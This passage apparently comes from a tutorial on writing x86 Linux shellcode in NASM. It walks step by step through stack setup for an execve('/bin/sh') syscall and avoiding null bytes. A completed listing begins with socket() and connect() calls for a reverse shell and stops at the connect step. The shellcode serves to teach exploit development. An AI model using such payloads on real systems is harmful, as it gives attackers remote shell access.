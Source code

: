 We will be utilizng the stack for these arguments. So we will be doing things in slightly a different order than our previous syscalls. This particular syscall requires null terminators and pointers to stack locations. Remember the stack grows from High to Low so first we need to put a terminator onto the stack.

```nasm
    push eax
```

Next, we need to place the string `/bin/sh` onto the stack in reverse order. However, before we do this and in order to avoid NULL BYTEs in our shellcode, we need to make sure that the string is divisable by 4. Right now, it's 7 characters so we add an additional character to make it an even 8. `//bin/sh`

```nasm
    push 0x68732f6e
    push 0x69622f2f
```

Next, we need EBX to carry the pointer location of the entity we just created on the stack. 

```nasm
    mov ebx, esp
```

Next, we will need another zeroed out value to be pointed to for EDX, so let's push EAX onto the stack once more and then assign the ESP to EDX.

```nasm
    push eax
    mov edx, esp
```

Finally, ECX should point to the location of EBX. So we'll push EBX onto the stack and then move ESP into ECX. 

```nasm 
    push ebx
    mov ecx, esp
```

Now we can put our `0x0b` into the lower portion of EAX and call our interrupt. 

```nasm
    mov al, 0x0b
    int 0x80
```

## Completed Assembly Code 

```nasm
global_start

section .text
_start:

	xor eax, eax
	xor ebx, ebx
	xor ecx, ecx
	xor edx, edx
	
	; SYS CALL #1 = socket()
	
	mov ax, 0x167
	mov bl, 0x02
	mov cl, 0x01
	
	int 0x80
	mov edi, eax

	; SYS CALL #2 = connect()
```